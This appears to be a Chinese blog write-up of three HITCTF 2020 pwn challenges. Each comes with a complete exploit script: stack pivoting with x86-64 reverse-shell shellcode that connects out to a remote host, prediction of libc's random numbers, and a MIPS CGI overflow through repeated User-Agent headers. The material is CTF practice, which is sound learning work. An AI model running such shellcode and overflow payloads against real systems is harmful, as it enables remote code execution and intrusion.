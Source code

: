```yaml
---
title: HITCTF 2020 三道 Pwn
date: 2020-12-09 00:00:02
categories:
- CTF/Pwn
tags: HITCTF mips
---
```


> 更新中...比较简单的Pwn，其中的MIPS Pwn是人生中拿到的第一个Pwn的一血，全是4哥的功劳。

总共五道题，做出来三道，题目全在这了：[pwn.zip](https://xuanxuanblingbling.github.io/assets/attachment/hitctf/sniff.pcap)

## dagongren1

媳妇博客：[hitctf2020之dagognren1](https://blingblingxuanxuan.github.io/hitctf2020-dagongren1.html)

- 漏洞：main函数scanf栈溢出
- 利用：栈迁移+反弹shell

```python
from pwn import *
context(arch="amd64",os='linux')
#myelf = ELF("./dagongren1")
#io = process(myelf.path)
io = remote("81.70.209.171",51601)

shellcode = "\x48\x31\xc0\x48\x31\xff\x48\x31\xf6\x48\x31\xd2\x4d\x31\xc0\x6a\x02\x5f\x6a\x01\x5e\x6a\x06\x5a\x6a\x29\x58\x0f\x05\x49\x89\xc0\x48\x31\xf6\x4d\x31\xd2\x41\x52\xc6\x04\x24\x02\x66\xc7\x44\x24\x02\x7a\x69\xc7\x44\x24\x04\x95\x81\x23\x3d\x48\x89\xe6\x6a\x10\x5a\x41\x50\x5f\x6a\x2a\x58\x0f\x05\x48\x31\xf6\x6a\x03\x5e\x48\xff\xce\x6a\x21\x58\x0f\x05\x75\xf6\x48\x31\xff\x57\x57\x5e\x5a\x48\xbf\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x48\xc1\xef\x08\x57\x54\x5f\x6a\x3b\x58\x0f\x05"

io.recv()
#gdb.attach(io,"b * 0x400736")
io.sendline('a'*32+p64(0x600E40)+p64(0x4006FC))
sleep(1)
io.sendline('a'*32+p64(0x0)+p64(0x600e50)+shellcode)
io.interactive()
```

## lucky

- 漏洞：可预测的随机数
- 利用：本地预测随机数

```python
from pwn import *
from ctypes import *
context.log_level = "debug"
 
libc = cdll.LoadLibrary('/lib/x86_64-linux-gnu/libc.so.6')
libc.srand(libc.time(0)/0xA+1)
myelf = ELF("./lucky")
#io = process(myelf.path)
io = remote("81.70.209.171",51700)
io.recv()
io.sendline("xuan")
for i in range(100):
    io.recv()
    io.sendline(str(libc.rand()))
io.interactive()
```

## supercgi

- 漏洞：多个`User-Agent`字段可以触发栈溢出（瞎发包测出来的，溢出点估计个大概，但原因比赛时没看明白）
- 利用：return 2 shellcode

> 开始用的ROP直接用程序函数打印flag，本地成功，远程失败，本地挂socat失败，原因不详，后来询问出题人，发现预期解是执行了`cat flag`，果断用shellcode

```python
from pwn import *
context(arch='mips',os='linux',endian='little')

buf =  b""
buf += b"\x66\x06\x06\x24\xff\xff\xd0\x04\xff\xff\x06\x28\xe0"
buf += b"\xff\xbd\x27\x01\x10\xe4\x27\x1f\xf0\x84\x24\xe8\xff"
buf += b"\xa4\xaf\xec\xff\xa0\xaf\xe8\xff\xa5\x27\xab\x0f\x02"
buf += b"\x24\x0c\x01\x01\x01\x2f\x62\x69\x6e\x2f\x73\x68\x00"

payload = '''GET /index.html HTTP/1.1
User-Agent: aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa//flag\x00
User-Agent: aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
User-Agent: %s
User-Agent: %s
User-Agent: %s

'''% (
    ('b'*187+p32(0x412f20)+'a'*5+buf),
    ('c'*78+p32(0x412f20)),
    ('d'*179+p32(0x412f20))
    ) 
#myelf = ELF("./SuperCgi")
#io = process(["qemu-mipsel","-g","1234",myelf.path])
#io = process(["qemu-mipsel",myelf.path])
#raw_input()
io = remote("81.70.209.171",50603)
#io = remote("127.0.0.1",1111)
#raw_input()
#sleep(1)
io.send(payload)
io.interactive()
```